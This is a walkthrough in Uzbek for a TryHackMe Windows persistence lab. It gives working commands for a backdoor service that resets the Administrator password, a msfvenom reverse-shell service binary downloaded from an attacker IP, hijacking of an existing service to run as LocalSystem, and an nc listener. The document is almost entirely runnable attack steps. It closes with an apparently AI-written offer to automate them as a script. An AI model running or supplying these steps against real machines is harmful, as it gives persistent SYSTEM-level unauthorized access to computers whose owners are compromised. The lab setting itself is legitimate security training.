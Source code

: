 

## 🎯 Maqsad:

1. **Yangi xizmat (service) yaratish** orqali tizimda orqa eshik (backdoor) o‘rnatish.
2. **Mavjud xizmatni o‘zgartirish** orqali aniqlanmasdan orqa eshikni ishga tushirish.
3. Har safar tizim yoqilganda, **payload avtomatik ishlaydi** va sizga shell qaytadi.

---

## 🔧 1. ✅ YANGI SERVICE YARATISH

### 🧨 Oddiy parolni o‘zgartirish xizmati

```cmd
sc.exe create THMservice binPath= "net user Administrator Passwd123" start= auto
sc.exe start THMservice
```

🔑 Natija:

* Administrator foydalanuvchisining paroli `Passwd123` ga o‘zgaradi
* Har safar kompyuter yoqilganda bu buyruq avtomatik ishlaydi

---

### 🧨 Reverse shell xizmatini yaratish

#### 🛠 `msfvenom` yordamida shell yarating:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=4448 -f exe-service -o rev-svc.exe
```

> `YOUR_IP` o‘rniga o‘z AttackBox IP manzilingizni yozing.

#### 📁 Faylni nishon tizimga (C:\Windows) yuklang
Yuklash:
```
Invoke-WebRequest -Uri "http://10.8.24.135/rev-svc.exe" -OutFile "C:\Windows\rev-svc.exe"
```
#### 🧰 Service yaratish va ishga tushurish:

```cmd
sc.exe create THMservice2 binPath= "C:\Windows\rev-svc.exe" start= auto
sc.exe start THMservice2
```

### 📞 Listener ishga tushiring:

```bash
nc -lvp 4448
```

---

## 🏁 Flag olish:

Tizimga shell qaytgach:

```cmd
C:\flags\flag7.exe
```

---

## 🔧 2. ✅ MAVJUD SERVICE NI O‘ZGARTIRISH

### 🔍 Mavjud service’ni ko‘rish:

```cmd
sc.exe query state= all
```

> Sizga keraklisi: `THMService3` bo‘lishi kerak (STOPPED holatda)

---

### 📋 Xizmatni tekshirish:

```cmd
sc.exe qc THMService3
```

* `BINARY_PATH_NAME` — hozirgi executable yo‘li
* `START_TYPE` — `AUTO_START` bo‘lishi kerak
* `SERVICE_START_NAME` — `LocalSystem` bo‘lsa, SYSTEM huquqini olasiz

---

### 🧨 Yangi payload yaratamiz:

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=YOUR_IP LPORT=5558 -f exe-service -o rev-svc2.exe
```

Yuklab, `C:\Windows\rev-svc2.exe` ga joylashtiring.
Yuklash:
```
Invoke-WebRequest -Uri "http://10.8.24.135/rev-svc.exe" -OutFile "C:\Windows\rev-svc2.exe"
```
---

### 🛠 Service’ni sozlash:

```cmd
sc.exe config THMService3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
```

---

### 🔁 Tekshirish:

```cmd
sc.exe qc THMService3
```

> E'tibor bering: `SERVICE_START_NAME : LocalSystem` bo‘lishi juda muhim — bu sizga **SYSTEM huquqida** shell qaytaradi.

---

### 📞 Listener oching:

```bash
nc -lvp 5558
```

---

## 🧩 Bonus: Service’ni keyin ishga tushiring

Agar tizim qayta ishga tushirilmasa:

```cmd
sc.exe start THMService3
```

---

## 🏁 THM Flag

Shell olganingizdan so‘ng:

```cmd
C:\flags\flag7.exe
```

---

## ✅ Xulosa jadvali:

| Qadam                                | Buyruq yoki vosita                                          |
| ------------------------------------ | ----------------------------------------------------------- |
| Yangi service – parolni o‘zgartirish | `sc.exe create ...` bilan `net user` buyruqlarini ishlatish |
| Yangi service – reverse shell        | `msfvenom` + `sc.exe create`                                |
| Mavjud service – hijack              | `sc.exe config` bilan `binPath`, `start`, `obj` ni sozlash  |
| Shell olish                          | `nc -lvp <port>`                                            |
| Flag olish                           | `C:\flags\flag7.exe`                                        |

---

Agar xohlasangiz, bu barcha bosqichlarni `.bat` faylga yoki `PowerShell` skriptga aylantirib avtomatiklashtirib beraman. Yordam kerakmi?
